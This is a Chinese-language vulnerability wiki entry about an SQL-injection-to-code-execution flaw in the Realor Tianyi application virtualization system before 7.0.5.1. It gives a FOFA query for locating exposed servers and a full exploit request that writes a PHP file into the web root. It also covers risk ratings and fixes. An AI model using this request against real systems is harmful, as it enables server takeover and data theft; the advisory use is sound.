


---

source: "SourByte05/Vulnerability-Wiki-PoC"
---

# 瑞友天翼应用虚拟化系统SQL注入致远程代码执行漏洞

# 漏洞描述

该漏洞的成功利用可利用SQL注入写入恶意文件获取操作系统权限，最严重的情况下，这可能导致服务器的完全接管，敏感数据泄露，甚至将服务器转化为发起其他攻击的跳板。

影响范围

version < 7.0.5.1

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="REALOR-天翼应用虚拟化系统"

POC/EXP：

GET /index.php?s=/Admin/appsave&appid=3%27%29%3Bselect+unhex%28%27<?php echo md5("1"); $file = __FILE__; unlink($file);%27%29+into+outfile+%27.%5C%5C..%5C%5C..%5C%5CWebRoot%5C%5Cplom.xgi%27%23 HTTP/1.1
Host: 127.0.0.1:1234

# 修复方案

加强服务器和应用的访问控制，仅允许可信IP进行访问。另外如非必要，不要将该系统开放在互联网上。

使用WAF等安全设备针对该应用的异常请求进行拦截。

升级修复方案

官方已发布新版本修复漏洞，建议更新至7.0.5.1及以上版本以修复漏洞。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
